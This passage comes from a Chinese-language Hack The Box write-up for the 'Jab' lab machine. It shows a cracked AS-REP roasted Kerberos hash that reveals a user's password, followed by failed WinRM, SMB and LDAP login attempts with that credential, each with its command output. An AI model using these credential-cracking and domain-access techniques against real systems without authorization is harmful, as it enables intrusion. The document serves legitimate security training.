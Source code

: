 ```bash
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855:Midnight_121
Approaching final keyspace - workload adjusted.
```

## jmontgomery凭据下的探索

### winrm连接失败

拿到一个凭据，且域控有开放5985端口，首先该想到尝试`evil-winrm`连接。  
不过结果失败：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ evil-winrm -i 10.10.11.4 -u jmontgomery -p Midnight_121

Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

### SMB连接失败

那么从头开始，SMB、LDAP收集信息。

SMB无法登陆：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ smbclient -L //10.10.11.4/ -U jab.htb/montgomery%Midnight_121  
session setup failed: NT_STATUS_LOGON_FAILURE
```

### LDAP无有用信息

LDAP似乎要求LDAPS连接。
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldap://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121'                                       
ldap_bind: Strong(er) authentication required (8)
        additional info: 00002028: LdapErr: DSID-0C090389, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' 
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
```
